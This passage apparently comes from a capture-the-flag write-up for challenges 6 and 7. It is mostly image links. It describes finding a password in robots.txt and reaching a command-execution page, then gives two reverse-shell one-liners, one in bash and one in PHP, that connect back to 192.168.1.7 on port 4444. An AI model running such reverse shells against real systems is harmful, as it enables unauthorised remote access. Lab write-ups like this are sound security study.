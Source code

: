 <img src="https://imgur.com/aMxbMS4.png"/>

<img src="https://imgur.com/TLZZto3.png">


#Challenge 6 (Seis)

<img src="https://imgur.com/PgXc19M.png"/>

I didn't solve this one in order xD


# Challenge 7 (Siete)

Visiting `/var/www/html` we will see `shellcmsdashboard`  so lets hop over to that directory


<img src="https://imgur.com/TaNLw4Q.png"/>

<img src="https://imgur.com/YMXMEKL.png"/>

<img src="https://imgur.com/qRckTBq.png"/>

Coming back to the box , we can a `robots.txt` by reading it we can a password there

<img src="https://imgur.com/cTJTeuL.png"/>

On giving the right credentials , it's going to point us to go on the next page

<img src="https://imgur.com/a92bbVl.png"/>


<img src="https://imgur.com/nzB6whl.png"/>

Now this here is a RCE vulnerability , we can give any command we want and it will execute this for us 

<img src="https://imgur.com/KWOUcYI.png"/>

Now we have seen that there was `readme9213.txt` we can easily read it because we are `www-data` in this case and that file belongs it .


But doing `cat readme9213.txt ` won't give us the result so we need a reverse shell in order to read that file.

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

bash -i >& /dev/tcp/192.168.1.7/4444 0>&1 - This did'nt worked 
php -r '$sock=fsockopen("192.168.1.7",4444);exec("/bin/sh -i <&3 >&3 2>&3");' This did

<img src="https://imgur.com/gG2jzrk.png"/>

<img src="https://imgur.com/nON3h4W.png"/>
